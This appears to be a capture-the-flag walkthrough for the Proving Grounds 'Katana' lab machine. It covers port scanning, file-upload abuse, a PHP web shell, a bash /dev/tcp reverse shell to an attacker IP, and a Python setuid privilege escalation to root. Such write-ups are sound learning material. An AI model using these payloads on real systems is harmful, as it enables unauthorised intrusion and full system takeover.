 ```yaml
---
layout: default
title: Katana
parent: Proving Grounds Play
nav_order: 2
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.183.83
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed.

## 80 - HTTP

Authenticate to /ebook/admin.php with **_admin:admin_** but ends up being deadend.

## 8088 - HTTP

Running **wfuzz** returns the following files:

- index.html
- upload.php
- upload.html

**upload.html** provides a place to upload files.

![upload](../../../assets/images/ctfs/proving_grounds/katana/upload.png)

### Upload PHP cmd shell

Create **shell.php** with the following contents:

```bash
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```

After successful upload the output indicates that the PHP web shell has been placed on the "other web server"

![upload_message](../../../assets/images/ctfs/proving_grounds/katana/upload_message.png)

# Exploitation

---

## Reverse Shell via PHP Web Shell

We have a PHP web shell with command execution.

Generate a reverse shell using **revshellgen**

```bash
# Generate reverse shell payload
revshellgen -i 192.168.45.217 -p 9001 -t bash

# URL encode the payload
urlencode "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"

# Output
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261
```

Execute the URL encoded payload in the PHP web shell

```bash
# URL to execute
http://192.168.183.83:8715/katana_shell.php?cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

Receive back a reverse shell on the netcat listener.

![rev_shell](../../../assets/images/ctfs/proving_grounds/katana/rev_shell.png)

# Post-Exploitation

---

## Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

![extend_cap](../../../assets/images/ctfs/proving_grounds/katana/extend_cap.png)

Within the /tmp directory, create **priv.py** that does the following:

1. Sets the UID to 0
2. Generates a /bin/bash shell

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

Make **priv.py** executable and run with python2.7 to get root shell.

![root](../../../assets/images/ctfs/proving_grounds/katana/root.png)
